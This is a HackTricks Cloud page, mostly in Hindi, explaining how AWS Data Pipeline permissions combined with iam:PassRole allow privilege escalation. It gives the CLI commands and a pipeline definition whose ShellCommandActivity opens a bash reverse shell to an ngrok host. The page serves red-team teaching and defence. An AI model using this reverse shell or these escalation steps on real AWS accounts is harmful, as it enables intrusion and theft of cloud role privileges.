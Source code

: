 # AWS - Datapipeline Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## datapipeline

datapipeline के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

इन **अनुमतियों वाले उपयोगकर्ता एक डेटा पाइपलाइन बनाकर विशेषाधिकार बढ़ा सकते हैं** ताकि **नियुक्त भूमिका की अनुमतियों का उपयोग करके मनमाने आदेश निष्पादित कर सकें:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
पाइपलाइन निर्माण के बाद, हमलावर इसकी परिभाषा को अद्यतन करता है ताकि विशिष्ट क्रियाएँ या संसाधन निर्माण को निर्धारित किया जा सके:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **भूमिका** एक भूमिका होनी चाहिए जो **datapipeline.amazonaws.com** द्वारा ग्रहण की जा सके और **लाइन 28** में भूमिका एक **भूमिका होनी चाहिए जो ec2.amazonaws.com द्वारा ग्रहण की जा सके जिसमें एक EC2 प्रोफ़ाइल इंस्टेंस हो**।

इसके अलावा, EC2 इंस्टेंस केवल उस भूमिका तक पहुंच रखेगा जो EC2 इंस्टेंस द्वारा ग्रहण की जा सके (इसलिए आप केवल वही चुरा सकते हैं)।
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
The **pipeline definition file, crafted by the attacker, includes directives to execute commands** या AWS API के माध्यम से संसाधन बनाने के लिए, Data Pipeline की भूमिका अनुमतियों का लाभ उठाते हुए संभावित रूप से अतिरिक्त विशेषाधिकार प्राप्त करने के लिए।

**Potential Impact:** निर्दिष्ट ec2 सेवा भूमिका के लिए सीधे privesc।

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
